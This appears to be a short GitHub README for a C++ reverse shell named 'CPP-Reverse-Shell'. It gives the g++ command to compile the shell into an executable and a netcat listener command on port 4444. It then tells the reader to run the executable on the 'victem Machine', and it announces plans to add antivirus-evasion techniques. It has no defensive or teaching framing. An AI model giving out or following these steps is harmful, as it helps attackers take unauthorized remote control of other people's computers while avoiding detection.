# CPP-Reverse-Shell

Compile it 
![image](https://user-images.githubusercontent.com/96126679/181670089-03f80a6e-abdf-4c2b-837b-d4f3bdfdf464.png)

g++ shell.cpp -o shell.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive

then listen For the SHELL 

![image](https://user-images.githubusercontent.com/96126679/181670753-1101e02d-c53b-468d-ae60-d1ef99fd58ac.png)

nc -lvp 4444

then run the exe on the victem Machine 

then Voila.

![image](https://user-images.githubusercontent.com/96126679/181671006-b19239e2-7fd5-46d0-83ef-f45d7741e743.png)


I am adding evasion techniques to Bypass AV av engines Soon ISA.
